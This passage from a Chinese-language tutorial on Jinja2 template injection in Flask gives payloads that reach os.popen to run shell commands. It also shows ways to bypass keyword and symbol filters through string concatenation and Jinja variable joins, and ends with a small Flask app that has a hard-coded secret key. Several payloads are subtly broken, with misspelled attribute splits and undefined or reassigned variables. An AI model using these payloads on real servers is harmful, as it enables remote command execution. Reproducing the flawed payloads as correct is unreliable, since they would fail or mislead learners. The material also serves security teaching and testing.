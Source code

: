 ```plain
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(177)|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('ls')|attr('read')()}}
```

### 6、绕过关键字过滤:
<font style="color:rgb(79, 79, 79);">1、编码绕过</font>

<font style="color:rgb(79, 79, 79);">即使用Unicode编码绕过</font>

<font style="color:rgb(79, 79, 79);">2、"+"拼接</font>

<font style="color:rgb(77, 77, 77);">{{().__class__}}等效于{{()[‘__cla’+’ss__’]}}</font>

```plain
{{()['__cla'+'ss__']['__ba'+'se__'] [ '__subc'+'__lasses__']['__ get'+'item__'](177)['__in'+'it__']['__glo'+'bals__']['__geti'+'tem__']('os')['po'+'pen']('ls')['read']()}}
```

<font style="color:rgb(79, 79, 79);">3、Jinjia2中的拼接</font>

<font style="color:rgb(77, 77, 77);">{{()[‘__class__’]}}等价于{%set a=’__cla’%}{%set b=’ss__’%}{{()[a~b]</font>

```plain
{%set a='__cla'%}{%set b='ss__'%}{%set c='__ba'%}{%set d='se__'%}{%set e='__subcl'%}{%set f='asses__'%}{%set g='__in'%}{%set h='it__'%}{%set l='__gl'%}{%set i='obals__'%}{%set i='po'%}{%set k='pen'%}{{""[a~b][c~d][e~f]()[19][g~h][l~i]['os'][j~k]('ls')['read']()}}
```

### <font style="color:rgb(77, 77, 77);">7、绕过符号过滤</font>
```plain
{% set a=({}|select()|string()) %}{{a}} #获取下划线
{% set a=({}|self|string()) %} {{a}} #获取空格
{% set a=(self|string|urlencode) %}{{a}}  #获取百分号
```

# <font style="color:rgba(0, 0, 0, 0.87);">三、Flask开发小网站</font>
### 先上效果
![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737898322502-cad5dfd0-7f27-4e3e-8349-196239935e00.png)

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737909252297-ab5b5aaf-35cf-4741-896f-0603620c03da.png)![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737898391216-23a44fee-582e-4424-acf6-31769650232c.png)

### 主要代码如下：
```python
from flask import Flask, render_template, request, flash

app = Flask(__name__)
app.secret_key = "manbearpig_MUDMAN888"


@app.route("/")
def index():
    flash("what's your name?")
    return render_template("index.html")


@app.route("/greet", methods=['POST', 'GET'])
def greeter():
    flash("Hi " + str(request.form['name_input']) + " ! Great to see you !")
    return render_template("index.html")

```
